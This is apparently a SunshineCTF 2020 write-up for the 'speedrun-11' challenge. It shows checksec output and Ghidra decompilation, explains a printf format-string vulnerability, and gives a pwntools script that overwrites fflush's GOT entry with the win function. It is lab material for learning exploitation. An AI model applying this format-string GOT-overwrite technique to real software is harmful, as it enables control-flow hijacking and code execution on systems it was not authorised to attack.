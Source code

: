 
## speedrun-11

### Checksec
```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Only NX enabled (no shellcode).  Anything else goes, BOF, ROP, GOT overwrite, ...

### Decompile with Ghidra

```c
void vuln(void)
{
  char local_d4 [204];
  
  fgets(local_d4,199,stdin);
  printf(local_d4);
  fflush(stdin);
  return;
}

void win(void)
{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  system((char *)(iVar1 + 0x15e));
  return;
}
```

`vuln` reads up to 199 bytes into a 204-byte buffer, so no BOF today.  However the vuln is the `printf` without a format string.  Format-string vulnerabilities are very dangerous, it's basically a _write-what-where_ and _read-what-where_.  With the size of the buffer you could completely alter the behavior of the application.  E.g. change `fflush` in the GOT to `vuln`, then you can `printf` all day, leak all the addresses, change it back, ROP the stack, call `mmap`, setup some `RWX` memory, inject your malware, etc...

Anyway, for this task, just change `fflush` to `win` in the GOT.  Boom!


### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_11')

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('chal.2020.sunshinectf.org', 30011)

p.sendline()

offset = 6
payload = fmtstr_payload(offset,{binary.got.fflush:binary.sym.win})
p.sendline(payload)
```